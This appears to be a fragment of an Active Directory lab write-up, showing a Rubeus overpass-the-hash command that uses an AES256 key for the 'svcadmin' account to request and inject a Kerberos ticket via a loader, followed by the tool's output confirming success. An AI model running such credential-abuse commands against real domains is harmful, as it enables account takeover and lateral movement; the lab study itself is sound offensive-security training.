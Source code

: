 ![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : OTIUTNAB
[*] Domain          : 1ZYFN9EA
[*] Password        : LYGECBLJ
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5140
[+] LUID            : 0x3289056

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 52990038
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x3289056
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/17/2025 6:28:33 AM
  EndTime                  :  2/17/2025 4:28:33 PM
  RenewTill                :  2/24/2025 6:28:33 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  KrFCwNEBLw07rNppG9eoRjor9CvHuEppOhkZS8GV0Tw=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```
